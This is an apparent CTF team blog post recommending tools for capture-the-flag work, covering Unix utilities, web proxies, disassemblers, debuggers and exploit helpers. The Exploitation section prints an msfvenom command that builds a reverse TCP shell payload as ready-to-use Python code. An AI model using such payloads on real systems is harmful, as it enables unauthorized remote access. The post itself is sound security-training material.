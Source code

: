 ```yaml
---
layout: post
title: "Basic Tools"
categories: learning
author: saelo
---
```


CTFs are about the skill, not about the tools. Still, you'll need a couple of tools to be successful.\\
In general a good advice is to get used to working with the OS shell. There's really **a lot** of things you can do **very** quickly and effectively if you know your way around bash/zsh/*your_favourite_shell_here* and python or *your_favourite_scripting_language_here*.

Get used to curl, bash for + while loops, grep, pipes, file redirection, command substitution, fifos, ... you name it. Also choose a decent text editor (vim, sublime, emacs, ... **not** nano or similar :P) and learn how to use it properly.

Try to stay away from tools that automate too much, you'll not learn anything from using them and they most likely won't help you solve the challenge. Automated tools definitely lack behind a skilled human :)


###General Tools

There's a couple of useful Unix tools you'll often need during CTFs. Some tools you should be familiar with:

Tool           | Description
-------------- | -----------------------------------------------------------------------------------------------
strings        | Search for strings in files, supports 8, 16 and 32 bit Unicode
-------------- | -----------------------------------------------------------------------------------------------
file           | Try to detect the file type based on magic byte sequences at the start of the file
-------------- | -----------------------------------------------------------------------------------------------
netcat/nc      | Connect to a remote tcp/udp/sctp server and talk to it from the command line
-------------- | -----------------------------------------------------------------------------------------------
hexdump/xxd    | View files and data in hexadecimal
-------------- | -----------------------------------------------------------------------------------------------
hexedit/ghex   | Edit files in hexadecimal
-------------- | -----------------------------------------------------------------------------------------------
strace/ltrace  | Trace the execution of a binary, log syscalls/library function calls
-------------- | -----------------------------------------------------------------------------------------------
wireshark      | View network traffic, either live or from a pcap file
-------------- | -----------------------------------------------------------------------------------------------


###Web Security

My favourite tool for doing any kind of web hacking is the [Burp Suite](http://portswigger.net/burp/). Burp Suite is a very powerful and flexible tool and the free version is usually sufficient. For a start you'll want to make yourself familiar with the Proxy and the Repeater. Also take a look at the Intruder at some point.\\
Oftentimes a combination of curl, grep and sometimes a bash loop or similar can work wonders too though.

Additionally make yourself familiar with how to make web requests from your favourite scripting language. For python I can recommend the [requests](http://docs.python-requests.org/en/latest/) package.

Moreover it might be a good idea to have a few VMs (try out [vagrant](https://www.vagrantup.com/)) or [docker](https://www.docker.com/) containers ready so you can quickly run some server side code locally to develop and debug your exploit.

Ultimately web hacking really isn't about (automated) tools, so don't start running some vuln discovery tool or directory bruteforcer against the web server, it will get you nowhere and will just put the organizers web servers under unnecessary load.


###Reverse Engineering

You'll need a disassembler: Basically you have the choice between [radare2](https://github.com/radare/radare2), [hopper](http://www.hopperapp.com/) and [IDA Pro](https://www.hex-rays.com/products/ida/) (there's a free/evaluation version available for both, hopper and IDA). IDA Pro is pretty much the industry standard tool for reverse engineering (and thus relatively pricey).

For debugging you'll definitely want to make yourself familiar with gdb. If you want an improved UI you can take a look at the .gdbinit from [here](https://github.com/gdbinit/Gdbinit) or try out [voltron](https://github.com/snare/voltron).

If you need to do reverse engineering and/or debugging on Windows, take a look at [x64dbg](http://x64dbg.com/#start), [OllyDbg](http://www.ollydbg.de/) or the [Immunity Debugger](http://debugger.immunityinc.com/). Also [WinDbg](http://www.windbg.org/) is very powerful, especially since it can do kernel level debugging (rarely needed during CTFs though).


###Exploitation

Since reverse engineering a binary is usually the first step towards developing an exploit for it, make sure to also read the section on reverse engineering.

For your exploit you can usually grab some shellcode from the internet, e.g. [this one](http://shell-storm.org/shellcode/files/shellcode-752.php), but msfvenom can be useful, too. For example

    ./msfvenom \
     -p linux/x86/shell_reverse_tcp \
     LHOST=$(curl icanhazip.com) \
     LPORT=4444 \
     -b '\x00\x0a\x0d' \
     -f python

will generate a reverse shell payload without zero bytes or newlines in it and spit it out as ready to use python code.\\
If you need to build a ROP payload, give [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) a try (metasploit has a similar utility called msfrop, but I found ROPgadget to work better most of the times).

Some other useful tools include the [checksec.sh](http://www.trapkit.de/tools/checksec.html) script to quickly check which mitigations are enabled on a binary, the [pattern_create](https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_create.rb) and [pattern_offset](https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_offset.rb) scripts from metasploit to find various important offsets (e.g the offset from the start of a buffer to the saved return address on the stack), as well as the metasm shell (for example to quickly assemble a "jmp short 0x10" to jump over some corrupted part of the shellcode) or nasm (to build your own shellcode).

Also (shameless plug) take a look at our [ctfcode repository](https://github.com/kitctf/ctfcode) :)
